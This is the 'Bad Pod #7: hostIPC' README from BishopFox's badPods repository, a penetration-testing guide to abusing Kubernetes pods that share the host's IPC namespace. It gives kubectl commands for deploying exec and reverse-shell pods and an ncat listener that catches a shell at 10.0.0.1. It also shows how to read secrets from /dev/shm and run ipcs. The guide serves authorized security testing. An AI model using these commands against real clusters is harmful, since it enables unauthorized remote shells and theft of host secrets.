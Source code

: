 # Bad Pod #7: hostIPC
![](../../.github/images/Pod7.jpg)

If you only have `hostIPC=true`, you most likely can't do much. If any process on the host or any processes within another pod is using the host’s inter-process communication mechanisms (shared memory, semaphore arrays, message queues, etc.), you'll be able to read/write to those same mechanisms. The first place you'll want to look is `/dev/shm`, as it is shared between any pod with `hostIPC=true` and the host. You'll also want to check out the other IPC mechanisms with `ipcs`.

* **Inspect /dev/shm** - Look for any files in this shared memory location. 
* **Inspect existing IPC facilities** – You can check to see if any IPC facilities are being used with `/usr/bin/ipcs`. 


## Table of Contents
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
  - [Deleting resources](#deleting-resources)
- [Post exploitation](#post-exploitation)
  - [Inspect /dev/shm - Look for any files in this shared memory location.](#inspect-devshm---look-for-any-files-in-this-shared-memory-location)
  - [Look for any use of inter-process communication on the host](#look-for-any-use-of-inter-process-communication-on-the-host)
  - [Attacks that apply to all pods, even without any special permissions](#attacks-that-apply-to-all-pods-even-without-any-special-permissions)
- [Demonstrate impact](#demonstrate-impact)
- [References and further reading:](#references-and-further-reading)

# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
kubectl exec -it hostipc-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/[RESOURCE_TYPE]/hostipc-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep hostipc-exec-[RESOURCE_TYPE]      
kubectl exec -it hostipc-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe hostipc-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
ncat --ssl -vlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/hostipc/[RESOURCE_TYPE]/hostipc-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ ncat --ssl -vlp 3116
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: Listening on :::3116
Ncat: Listening on 0.0.0.0:3116
Connection received on 10.0.0.162 42035
```

## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/hostipc/pod/hostipc-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
kubectl delete pod hostipc-exec-pod
kubectl delete cronjob hostipc-exec-cronjob
```

# Post exploitation 

## Inspect /dev/shm - Look for any files in this shared memory location

For a super simple POC, I have created a secret file in /dev/shm on the worker node
```
root@k8s-worker:/# echo "secretpassword=BishopFox" > /dev/shm/secretpassword.txt
```


From the hostIPC pod, we can list all files in /dev/shm
```
root@hostipc-exec-pod:/# ls -al /dev/shm/
total 4
drwxrwxrwt 3 root root  80 Dec 22 15:11 .
drwxr-xr-x 5 root root 360 Dec 21 20:01 ..
drwx------ 4 root root  80 Sep  9 20:10 multipath
-rw-r--r-- 1 root root  25 Dec 22 15:11 secretpassword.txt
```

Check out any interesting files
```
root@hostipc-exec-pod:/# cat /dev/shm/secretpassword.txt
secretpassword=BishopFox
```

## Look for any use of inter-process communication on the host 
```bash
ipcs -a
```

## Attacks that apply to all pods, even without any special permissions

**To see these in more detail, head over to [nothing-allowed/README.md](../nothing-allowed)** 

* Access the cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate impact
If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

# References and further reading: 
* https://docs.docker.com/engine/reference/run/#ipc-settings---ipc
* https://opensource.com/article/20/1/inter-process-communication-linux
